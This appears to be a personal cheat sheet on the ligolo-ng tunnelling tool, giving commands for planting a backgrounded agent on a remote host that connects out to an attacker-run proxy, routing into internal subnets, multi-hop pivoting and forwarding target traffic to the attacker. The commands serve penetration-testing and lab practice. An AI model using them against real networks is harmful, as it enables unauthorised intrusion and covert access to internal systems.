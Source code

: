 ```yaml
---
layout: post
author: reo
title: 'ligolo-ng'
category: tools
tags: networking
---
```


https://github.com/nicocha30/ligolo-ng/wiki/Quickstart
Runs on port 11601 by default

## Quickstart
1. Upload `agent` to the remote host, don't run it yet
2. Start the proxy on the attacker machine
   ```bash
   sudo ./proxy -selfcert
   ```
3. Create the interface(s) in the ligolo-ng CLI for each agent as needed
   ```bash
   » interface_create --name ligolo
   ```

4. Start the agent on the remote host (and background process)<br><br>
   *Linux (POSIX):*
   ```bash
   ./agent -connect ENTER_LISTENING_IP_HERE:11601 -ignore-cert &
   ```
<br>
*Windows (Powershell):*
   ```Powershell
   Start-Job { .\agent.exe -connect ENTER_LISTENING_IP_HERE:11601 -ignore-cert }
   ```


5. Wait for the ligolo-ng proxy to detect that the agent has connected
6. In the Ligolo-ng CLI, run `session` and select the desired agent
7. Start the tunnel on the interface created in step 3
   ```bash
   » tunnel_start --tun ligolo
   ```
8. Find and confirm the subnet you wanna forward running `ifconfig` in the ligolo-ng CLI
9. Set up the route from step 8 in the ligolo_ng CLI
   ```bash
   » interface_add_route --name ligolo --route 172.16.1.0/24
   ```

**NOTE: [[Network Enumeration]] nmap scans need to run with `--unprivileged`**

## Listeners
On the ligolo-ng CLI
```bash
» listener_add --addr 0.0.0.0:41337 --to 0.0.0.0:41337
» listener_list
```
**Make sure the correct session is selected**
* Forwards connections made to the agent on port `--addr` to the attacker machine on port `--to`
* Consider this situation with the listener set up:
	* Attacker is running an HTTP server on 172.16.1.0/24 port 41337
	* Target is only on the 172.16.2.0/24 network
	* Agent is dual-homed with 172.16.1.0/24 and 172.16.2.0/24
	* Agent has IP 172.16.2.10 on the 172.16.2.0/24 network
	  - - -
	* Target runs `curl 172.16.2.10:41337/my_file`
	* The listener is set up so this is forwarded to the attacker
	* Target is able to get the file from the attacker

## Multi-Pivoting
Using the same names and IP addresses as the example in [[#Listeners]]
1. Set up a listener on Agent for the port ligolo-ng proxy uses (11601)
   ```bash
» listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp
   ```
2. Run the agent on Target with the IP `172.16.2.10` and port from step 1
3. The proxy on the attacker machine receives the agent connection
4. Change session to the new connection on the ligolo-ng CLI
```bash
» session
```
5. Create the new interface and set up routes/tunnels on the ligolo-ng CLI
```bash
» interface_create --name ligolo2
» start --tun ligolo2
» interface_add_route --name ligolo2 --route 172.16.2.0/24
```

Can now reach the `172.16.2.0/24` network via the Target machine

## Port Forward for Localhost
**Make sure the correct session is selected**
```
[Agent : user@host2] » listener_add --addr 0.0.0.0:4444 --to 127.0.0.1:4444 --tcp
```
NOTE this is on host2, there's a service on localhost:4444 that I want to access
```
[Agent : user@host2] » interface_create --name ligolo2
```
Create a new tun interface for the second pivot
```
[Agent : user@host2] » start --tun ligolo2
[Agent : user@host2] » interface_add_route --name ligolo2 --route 240.0.0.1/32
```
240.0.0.1 is an alias for localhost on the remote machine
Can now interact with services running on localhost on the remote machine by interacting with 240.0.0.1
Eg. `nc -nv 240.0.0.1 4444`

### Cleanup
Can delete interfaces using the ligolo-ng CLI:
```bash
ifdel --name ligolo # Delete the interface "ligolo"
```

## Troubleshooting
```bash
ip a                       # Interface info
ip route                   # Routes info
ip route del 172.16.1.0/24 # Delete routes
```

